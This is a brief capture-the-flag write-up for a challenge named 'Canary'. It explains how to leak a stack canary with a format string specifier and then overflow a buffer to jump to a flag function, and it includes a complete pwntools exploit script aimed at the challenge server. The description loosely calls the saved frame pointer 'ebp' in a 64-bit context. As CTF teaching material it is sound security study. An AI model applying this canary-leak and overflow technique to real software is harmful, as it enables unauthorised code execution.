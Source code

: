 # Canary

Use pattern.py to flood the second input, put a breakpoint at the line in greet which compares the canaries. Check rax using gdb, feed that back into pattern.py, 56 bytes before canary. Fuzz format string output until you find the one that's always 8 bytes long, that's the canary Make a script that leaks the canary then overflows the buffer with `56 junk bytes + canary + 8 junk bytes + flag address`

## Note: canary is just before ebp, which is why you must put 8 junk bytes to fill up ebp

```python
from pwn import *
import re
e = ELF("./canary")
p = remote("shell.actf.co" ,20701)
for _ in range(23):
            p.recvline()
p.recvline()
p.sendline("%17$lx")
flagaddr = 0x0000000000400787
output = p.recvline()
num = re.findall("Nice to meet you, (.*)!", output)
canary = int(num[0], 16)
log.info("Canary: " + hex(canary))
firstpad = 'A' * 56 #Junk before the canary
canaryString = p64(canary)
neweip = p64(flagaddr)
lastpad = 'B' * 8
payload = firstpad + canaryString + lastpad + neweip
p.sendline(payload)
log.info("Response: " + p.recvline())
```

